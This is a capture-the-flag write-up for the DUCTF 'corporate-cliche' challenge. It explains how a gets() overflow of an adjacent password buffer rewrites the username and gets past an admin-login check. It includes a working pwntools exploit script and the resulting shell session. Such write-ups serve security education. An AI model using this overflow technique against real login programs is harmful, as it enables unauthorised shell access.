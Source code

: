 # corporate-cliche

We are given a binary, some C source code and a remote instance to connect to.

Looking at the source code, our goal is to get the `open_admin_session()` function to run and pop a shell.

We have the credentials hard coded into the app:

```
const char* logins[][2] = {

    {"admin", "🇦🇩🇲🇮🇳"},

    {"guest", "guest"},

};
```

Connecting to the program and logging in with the guest account just brings up a useless email. Trying to login with the username `admin` gives us an error.

```
Enter your username: admin
-> Admin login is disabled. Access denied.
```

Looking back at the source code, after you enter a username, it checks to see if it is `admin` and if so it prints an error and exits. 

```
    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }
```

There is a way to bypass this however. If we look at how the `username` and `password` variables are initialised, we can see they are set to a 32 byte buffer, straight after each other in memory

```
    char password[32];
    char username[32];
```

Looking at how the program gets the password, we can see it uses `gets()` which is an insecure function as it allows us to write passed the buffer.

```
    printf("Enter your password: ");
    gets(password);
```

This means we overwrite the `username` variable after it checks whether we are trying to login as admin or not. To test this, I connect to the app, type in my username as `guest` and in type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin` and this bypasses the username check!

```
Enter your username: guest
Enter your password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin
-> Incorrect password for user 'admin'. Access denied.

```

Now all we need to go is make sure the password for admin is entered correctly. The program uses `strcmp()` to check the password which will read a string up to a null terminator (`\x00`).

```
if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
```

We can use pwntools in Python to create a payload to do this easily.

```
from pwn import *
from pwn import context

context.binary = './email_server'
context.log_level = "debug"

p = remote("chal.2025.ductf.net", 30000)

p.sendlineafter(b"Enter your username: ", b"guest")

password = "🇦🇩🇲🇮🇳".encode("utf-8")
payload = password + b"\x00"

payload += b"A" * (32 - len(payload))

payload += b"admin\x00"

p.sendlineafter(b"Enter your password: ", payload)

p.interactive()
```

This script will enter `guest` as the username, bypassing the username check. It will add the admin password to the payload with a null terminator. It will then pad the of the `password` buffer with `A` characters and finally add the username `admin` to the payload (with a null terminator for good practice).

Once the script has created the payload, it will send it as the password. After running this script, we get a message that we have successfully logged in as `admin` and popped a shell!

```
[*] Switching to interactive mode
[DEBUG] Received 0x51 bytes:
    b'-> Password correct. Access granted.\n'
    b'-> Admin login successful. Opening shell...\n'
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'flag.txt\n'
    b'get-flag\n'
    b'pwn\n'
flag.txt
get-flag
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x41 bytes:
    b'DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}\n'
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
$
```